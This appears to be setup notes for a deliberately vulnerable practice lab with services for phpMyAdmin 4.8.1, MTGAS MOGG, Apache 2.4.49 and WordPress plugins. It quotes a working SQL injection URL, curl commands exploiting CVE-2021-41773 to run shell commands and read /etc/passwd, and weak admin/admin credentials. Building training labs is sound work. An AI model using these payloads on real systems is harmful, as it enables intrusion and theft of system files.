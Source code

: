 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. Hidden dir (MTGASS MOGG in dir **events/**)
3. password attack (phpmyadmin): [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613) - [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
4. SQLi (MTGAS MOGG): [EDB-ID 45717 MTGAS MOGG Web Simulator Script - SQL Injection](https://www.exploit-db.com/exploits/45717)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```
```
MTGAS MOGG Web Simulator Script - SQL Injection

# Exploit Title: MOGG web simulator Script - SQL Injection
# Date: 2018-10-29
# Exploit Author: Meisam Monsef - meisamrce@gmail.com - @meisamrce -
@dorsateam
# Vendor Homepage: https://github.com/spider312/mtgas
# Version: All Version


Exploit :
http://server/play.php?id=99999'+[SQL Command]+#
http://server/play.php?id=99999%27+and+extractvalue(1,concat(0x3a,user(),0x3a))%23
```

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# phpmyadmin 
1. **tcp 8515** 
2. Weak admin password
3. Perhaps store some credential in database to exploit authenticated RCE in phpmyadmin 4.8.1?
